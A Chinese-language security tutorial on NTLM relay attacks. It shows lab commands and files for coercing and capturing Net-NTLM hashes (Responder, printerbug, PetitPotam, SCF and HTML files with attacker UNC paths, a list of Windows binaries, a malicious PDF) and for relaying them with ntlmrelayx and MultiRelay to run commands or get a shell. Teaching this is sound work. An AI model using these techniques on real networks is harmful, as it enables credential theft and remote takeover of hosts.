# NTLM Relay 攻击

NTLM Relay 攻击其实应该叫 `Net-NTLM Relay` 攻击，**它发生在 NTLM 认证的第三步**，在` Response `消息中存在 `Net-NTLM Hash`，当攻击者获得了 Net-NTLMHash 后，可以重放 Net-NTLM Hash 进行中间人攻击，这就是大家常说的 NTLMRelay(NTLM 中继)攻击。

如图所示是 NTLM Relay 流程图，攻击者作为中间人在客户端和服务器之间转发NTLM 认证数据包，从而模拟客户端身份访问服务端的资源。



NTLM Relay 攻击分为两步：

- 第一步是捕获 Net-NTLM Hash
- 第二步是重放 Net-NTLM Hash

## 捕获 Net-NTLM Hash

捕获 Net-NTLM Hash 又有两步：

第一步是使用工具来**监听捕获目标服务器发来的 NTLM 请求**，使用`Responder`工具执行如下命令监听即可：

```
./Responder.py -i 10.211.55.2 -wrfv
```



第二步是**使目标服务器主动向攻击者发起 NTLM 请求**，常见的方法如下：

### 1.LLMNR&NBNS

LLMNR 和 NBNS 是**局域网内的名称解析协议**，主要**用于局域网中的名称解析**。当其他方式解析失败时，Windows 系统就会使用 LLMNR 和 NBNS 协议解析名称。这些协议**只为本地连接设计**。NetBIOS 和 LLMNR 在 Windows Vista 以后的系统中均实现。

**Windows 系统的名称解析顺序**如下：

- 本地 hosts 文件（%windir%\System32\drivers\etc\hosts）
- DNS 缓存/DNS 服务器
- 链路本地多播名称解析（LLMNR）和 NetBIOS 名称服务（NBNS）

#### （1）LLMNR

`LLMNR(Link-LocalMulticast NameResolution)`：链路本地多播名称解析(LLMNR)，是一个基于域名系统(DNS)数据包格式的协议，LLMNR 协议定义在RFC4795 中。该协议使得局域网内的 IPv4 和 IPv6 的主机进行名称解析为同一本地链路上的主机，因此也称作多播 DNS。Windows 操作系统从 Windows Vist 开始就内嵌支持 LLMNR 协议，Linux 系统也通过 systemd 实现了此协议。LLMNR协议监听的端口为 UDP 的 5355 端口，支持 IPv4 和 IPv6。LLMNR 协议类似于ARP 协议，其解析名称的特点为端到端，IPv4 的多播地址为 224.0.0.252，IPv6多播地址为 FF02::1:3。如图所示，使用 WireShark 抓包可以看到 LLMNR 协议。



#### （2）NBNS

`NetBios(Network Basic Input Output System)`：网络基本输入输出系统，NetBIOS 协议是由 IBM 公司开发，主要用于 20-200 台计算机的局域网。NBNS协议通过 UDP137 端口进行通信，仅支持 IPV4 不支持 IPV6。NBNS 是一种应用程序接口(API)，系统可以利用 WINS 服务、广播及 Lmhosts 文件等多种模式将NetBIOS 名解析为相应 IP 地址，几乎所有的局域网都是在 NetBIOS 协议的基础上工作的。在 Windows 操作系统中，默认情况下在安装 TCP/IP 协议后会自动安装 NetBIOS。

#### （3）LLMNR 和 NBNS 协议的区别和联系

区别：

- NBNS 基于**广播**，而 LLMNR 基于**多播**
- NetBIOS 在 Windows NT 以后的所有操作系统上均可用，而只有 WindowsVista 和更高版本才支持 LLMNR；
- LLMNR 还支持 IPv6，而 NetBIOS 不支持 IPv6。

联系：

- 两者都是局域网内用于解析名称的协议

#### （4）LLMNR&NBNS 攻击

只要**用户输入一个任意的不存在名称**，由于本地 hosts 文件和 DNS 服务器均不能正常解析该名称，于是系统就会发送 LLMNR/NBNS 数据包请求解析。**攻击者收到请求后告诉客户端它是该名称并要求客户端发送 Net-NTLM Hash 进行认证，于是攻击者就可以收到客户端发来的 Net-NTLMHash 了。**

如图所示，在局域网内任一主机 10.211.55.7 上请求解析不存在的名称“abcdefgh”：



此时我们的 Responder 就可以对目标主机进行 LLMNR/NBNS 毒化，并请求其输入凭据认证，然后就可以抓到目标主机的 Net-NTLM Hash 了，如图所示。



### 2.打印机漏洞

Windows 的 `MS-RPRN` 协议用于打印客户机和打印服务器之间的通信，默认情况下是启用的。协议定义的 `RpcRemoteFindFirstPrinterChangeNotificationEx()`调用创建一个远程更改通知对象，该对象监视对打印机对象的更改，并将更改通知发送到打印客户端。任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过 Kerberos 或 NTLM 进行验证）。微软表示这个 bug 是系统设计特点，无需修复。由于打印机是以 system 权限运行的，所以我们访问打印机 RPC，迫使打印机服务向我们发起请求，我们就能拿到目标机器用户的 `Net-NTLM Hash`。

我们使用 printerbug.py 脚本执行如下命令，使用域内任意用户访问目标机器的打印机服务，此脚本会触发 SpoolService Bug，强制 Windows 主机 AD01 也就是10.211.55.4 通过 MS-RPRNRPC 接口向攻击者 10.211.55.2 进行 NTLM 身份认证。

```
python3 printerbug.py xie/hack:P@ss1234@10.211.55.4 10.211.55.2
```

如图所示，使用 printerbug.py 脚本触发目标服务器向攻击者发起 SMB 认证。



此时我们的 Responder 已经收到目标机器向我们发送的 SMB 类型的 Net- NTLMHash 了，如图所示。



### 3.PetitPotam

2021 年 7 月 19 日，法国安全研究人员 Gilles Lionel 披露了一种新型的触发Net-NTLMHash 的利用手法——PetitPotam。该漏洞利用了`微软加密文件系统远程协议（MS-EFSRPC，MicroSoft Encrypting File System Remote Protocol）`。MS-EFSRPC 是 Microsoft 的加密文件系统远程协议，用于对远程存储和通过网络访问的加密数据执行“维护和管理操作”。利用 PetitPotam，攻击者可以通过连接到 LSARPC 强制触发目标机器向指定远程服务器发送 Net-NTLMHash。

我们使用 Petitpotam.py 脚本执行如下命令，强制目标主机 AD01 也就是10.211.55.4 机器向攻击者 10.211.55.2 发起 NTLM 认证。

```
python3 Petitpotam.py -d xie.com -u hack -p P@ss1234 10.211.55.2 10.211.55.4
```

如图所示，使用 Petitpotam.py 脚本触发目标服务器向攻击者发起 SMB 认证。



此时我们的 Responder 已经收到目标机器向我们发送的 SMB 类型的 Net- NTLMHash 了

### 4.图标

当图标的一些路径属性改成我们的 **UNC 路径**的话，我们就能收到目标服务器发来的 NTLM 请求。

#### （1）desktop.ini

在每个文件夹底下都有一个隐藏文件 desktop.ini，其作用是指定文件夹的图标之类。可以通过修改文件夹属性——>隐藏受保护的操作系统文件(推荐) ，来显示desktop.ini 文件。

首先创建一个 test 文件夹，然后修改该文件夹的图标为任何其他。如图所示：



然后取消勾选该文件夹的 **隐藏受保护的操作系统文件(推荐) 属性**，如图所示：



接着就能在 test 文件夹下看到 desktop.ini 文件了，如图所示：



将 IconResource 替换为攻击者的 UNC 路径，如图所示：



只要有人访问了 test 文件夹，目标主机就会去请求指定 UNC 的图标资源，于是该主机会将当前用户的 Net-NTLM Hash 发送给指定的机器，我们在指定 UNC 的机器上使用 Responder 监听，就能接收到目标机器发来的 Net-NTLM Hash 了。

如图所示：



#### （2）scf 文件

**只要一个文件夹内含有 scf 后缀的文件，由于 scf 文件包含了 IconFile 属性，所以 explore.exe 会尝试获取文件夹的图标。**而 IconFile 是支持 UNC 路径的，所以当打开文件夹的时候，目标主机就会去请求指定 UNC 的图标资源，于是该主机会将当前用户的 NTLM v2 hash 发送给指定的机器，我们在该机器上使用Responder 监听，就能接收到目标机器发来的 Net-NTLM Hash 了。

以下是 scf 后缀的文件的格式：

```
v[Shell]
Command=2
IconFile=UNC 路径
[Taskbar]
Command=ToggleDesktop
```

创建一个 test 文件夹，在该文件夹内创建 test.scf 文件，文件内容如下：

```
[Shell]
Command=2
IconFile=\\10.211.55.2\test\test.ico
[Taskbar]
Command=ToggleDesktop
```

只要有人访问了 test 文件夹，目标主机就会去请求指定 UNC 的图标资源，于是该主机会将当前用户的 NTLM v2 hash 发送给指定的机器，我们在指定的 UNC 地址的机器上使用 Responder 监听，就能接收到目标机器发来的 Net-NTLM Hash了。如图所示：



### 5.浏览器

当浏览器访问的页面中含有 UNC 路径的话，浏览器在解析该页面时也会尝试请求该 UNC 地址，然后发起 NTLM 认证。

不同浏览器对于插入的不同格式的 UNC 路径有不同的结果。

如下是网页文件，插入的 UNC 格式为\10.211.55.15\test。

```
<!doctype html>
<html lang="en">
<head>
<meta charset="UTF-8">
</head>
<body>
</body>
<script src="\\10.211.55.2\test"></script>
</html>
```

这时用户使用 IE 浏览器访问该页面，如图所示：



我们就能获取到目标用户 SMB 类型的 Net-NTLM Hash 了。

### 6.Outlook

Outlook 邮件支持发送 HTML 格式的邮件，于是我们可以发送带有如下 html payload 的邮件给指定用户。

```
<p>邮件发送测试...</p>

```

如图所示，可以看到目标用户 administrator 收到了恶意的邮件。



当目标使用的是 Windows 机器，并且使用的是 Outlook 客户端的话，他甚至不需要打开和点击邮件，Outlook 客户端就会自动向指定 UNC 路径进行认证，我们就能收到目标用户的 Net-NTLM Hash 了。

### 7.系统命令

通过执行系统命令，访问指定的 UNC 路径，也可以获取目标机器的 Net-NTLM Hash。

```
net.exe use \hostshare
attrib.exe \hostshare
cacls.exe \hostshare
certreq.exe \hostshare #(noisy, pops an error dialog)
certutil.exe \hostshare
cipher.exe \hostshare
ClipUp.exe -l \hostshare
cmdl32.exe \hostshare
cmstp.exe /s \hostshare
colorcpl.exe \hostshare #(noisy, pops an error dialog)
comp.exe /N=0 \hostshare \hostshare
compact.exe \hostshare
control.exe \hostshare
convertvhd.exe -source \hostshare -destination \hostshare
Defrag.exe \hostshare
diskperf.exe \hostshare
dispdiag.exe -out \hostshare
doskey.exe /MACROFILE=\hostshare
esentutl.exe /k \hostshare
expand.exe \hostshare
extrac32.exe \hostshare
FileHistory.exe \hostshare #(noisy, pops a gui)
findstr.exe * \hostshare
fontview.exe \hostshare #(noisy, pops an error dialog)
fvenotify.exe \hostshare #(noisy, pops an access denied error)
FXSCOVER.exe \hostshare #(noisy, pops GUI)
hwrcomp.exe -check \hostshare
hwrreg.exe \hostshare
icacls.exe \hostshare
licensingdiag.exe -cab \hostshare
lodctr.exe \hostshare
lpksetup.exe /p \hostshare /s
makecab.exe \hostshare
msiexec.exe /update \hostshare /quiet
msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)
mspaint.exe \hostshare #(noisy, invalid path to png error)
msra.exe /openfile \hostshare #(noisy, error)
mstsc.exe \hostshare #(noisy, error)
netcfg.exe -l \hostshare -c p -i foo
```

如图所示，使用系统命令 cacls.exe 触发 Net-NTLM Hash。



如图所示，可以看到收到目标机器的 Net-NTLM Hash 了。



### 8. pdf

PDF 文件可以添加请求远程 SMB 服务器文件的功能。于是可以利用 PDF 文件的正常功能够窃取 Windows 系统的 Net-NTLM Hash。当用户使用 PDF 阅读器打开一份恶意的 PDF 文档，该 PDF 会向远程 SMB 服务器发出请求，如果该远程SMB 服务器对数据包进行抓取，就能够获得目标用户的 Net-NTLM Hash。

使用 WorsePDF.py 脚本执行如下命令往正常的 PDF 文件中加入请求远程 SMB服务器的功能，生成` test.pdf.malicious.pdf `文件。

```
python2 WorsePDF.py test.pdf 10.211.55.2
```

如图所示，使用 WorsePDF.py 脚本往正常的 pdf 文件中加入请求指定远程 SMB服务器的功能，生成 `test.pdf.malicious.pdf` 文件。



然后目标主机使用 Adobe PDF 阅读器打开该` test.pdf.malicious.pdf `文件，我们即可收到目标用户的 Net-NTLM Hash 了。如图所示：



注：经过测试发现，只有使用 Adobe PDF 阅读器才会收到目标主机的 Net- NTLM Hash，Chrome、Edge 和 WPS 的 PDF 阅读器不能收到 Net-NTLMHash。

## 重放 Net-NTLM Hash

在获取到了目标机器的 Net-NTLM Hash 后，我们要怎么利用呢？这里有两种利用方式：

1. 使用 **Hashcat** 破解 Net-NTLM Hash
2. **Relay** Net-NTLM Hash

本文主要讲如何 Relay Net-NTLM Hash。我们知道，<u>由于 NTLM 只是底层的认证协议，必须镶嵌在上层应用协议里面，消息的传输依赖于使用 NTLM 的上层协议</u>，比如 SMB、HTTP、LDAP 等。因此，**我们可以将获取到的 Net-NTLM HashRelay 到其他使用 NTLM 进行认证的应用上。**

### 1.Relay To SMB

直接 Relay 到 SMB 服务，是最直接简单的方法，可以直接控制该服务器执行任意命令等操作。这里根据工作组和域环境，有两种场景，如下：

#### （1）工作组

在工作组环境中，工作组中的机器之间相互没有信任关系，除非两台机器的账号密码相同，否则 Relay 不成功。但是如果账号密码相同的话，为何不直接 Pass The Hash 哈希传递攻击呢？**因此在工作组环境下，Relay 到其他机器不太现实。**那么，我们可以 Relay 到机器自身吗？答案是可以的。但是后来微软在 MS08-068 补丁中对 Relay 到自身机器做了限制，严禁 Relay 到机器自身。道高一尺魔高一丈，这个补丁在 CVE-2019-1384(Ghost Potato)被攻击者绕过了。

##### 1）MS08-068-Relay To Self

当拿到用户的 SMB 请求之后，最直接的就是把请求 Relay 回本身，即 Reflect，从而控制机子本身。漏洞危害特别高，该漏洞编号为 MS08-068。微软在KB957097 补丁里面通过修改 SMB 身份验证答复的验证方式来防止凭据重播，从而解决了该漏洞。防止凭据重播的做法如下:

- 在 Type 1 阶段，主机 A 访问主机 B 进行 SMB 认证的时候，将pszTargetName 设置为 CIFS/B
- 在 Type 2 阶段，主机 A 拿到主机 B 发送的 Challenge 挑战值之后，在lsass 进程里面缓存(Challenge,CIFS/B) 
- 在 Type 3 阶段，主机 B 在拿到主机 A 的认证消息之后，会去查询 lsass 进程里面有没有缓存(Challenge,CIFS/B)，如果存在缓存，那么认证失败。

**因为如果主机 A 和主机 B 是不同主机的话，那么 lsass 进程里面就不会缓存(Challenge,CIFS/B)。如果是同一台主机的话，那 lsass 里面就会缓存(Challenge,CIFS/B)，这个时候就会认证失败。**

如图所示，可以看到 Relay 到自身会失败。



##### 2）CVE-2019-1384-Ghost Potato

这个漏洞绕过了 KB957097 补丁里面限制不能 Relay 回本机的限制。由于在KB957097 补丁措施里面这个**缓存(Challenge,CIFS/B)是有时效性**的，这个时间是300 秒，也就是说 300 秒后，缓存(Challenge,cifs/B)就会被清空，这个时候即使主机 A 和主机 B 是同一台主机，那么由于缓存已经被清除，那么 lsass 进程里面肯定没有(Challenge,CIFS/B)缓存。

执行如下命令，该漏洞 POC 基于 impacket 进行修改，目前只能支持收到 http协议请求的情况。该 poc 在 sleep 315 秒之后，再发送 Type 3 认证消息，于是就绕过了 KB957097 补丁。该 poc 实现的效果是在目标机器的启动目录上传指定的文件。

```
python ntlmrelayx.py -t smb://10.211.55.7 -smb2support --gpotato-startup test.txt
```

如图所示，进行 Ghost Potato 攻击，可以看到认证成功。



攻击完成后，会在目标机器启动目录下生成一个 test.txt 文件，如图所示



#### （2）域环境

在域环境中，默认普通域用户可以登录除域控外的其他所有机器，因此可以将域用户的 Net-NTLM Hash Relay 到域内的其他机器。

##### 1）impacket 下的 smbrelayx.py

运行 smbrelayx.py 脚本执行如下命令，该脚本接收域用户的 Net-NTLM Hash，然后 Relay 到域内其他机器执行指定命令。

```
python3 smbrelayx.py -h 10.211.55.16 -c whoami
```

如图所示，接收来自 10.211.55.5 的流量，Relay 到 10.211.55.16 机器，执行whoami 命令成功！



##### 2）impacket 下的 ntlmrelayx.py

```
python3 ntlmrelayx.py -t smb://10.211.55.16 -c whoami -smb2support
```

如图所示，接收来自 10.211.55.5 的流量，Relay 到 10.211.55.16 机器，执行whoami 命令成功！



##### 3）Responder 下的 MultiRelay.py 脚本

该脚本功能强大，通过 ALL 参数可以获得一个稳定的 shell，还有抓密码等其他功能。-t 参数用于指定要 Relay 的机器。

使用 MultiRelay.py 脚本执行如下命令进行监听：

```
./MultiRelay.py -t 10.211.55.6 -u ALL
```

然后触发目标用户的 Net-NTLM Hash，将其 Relay 到 10.211.55.6 机器。如图所示：



如图所示，执行 help 命令参看帮助。



如图所示，执行系统命令。



如图所示，抓取内存中的密码。

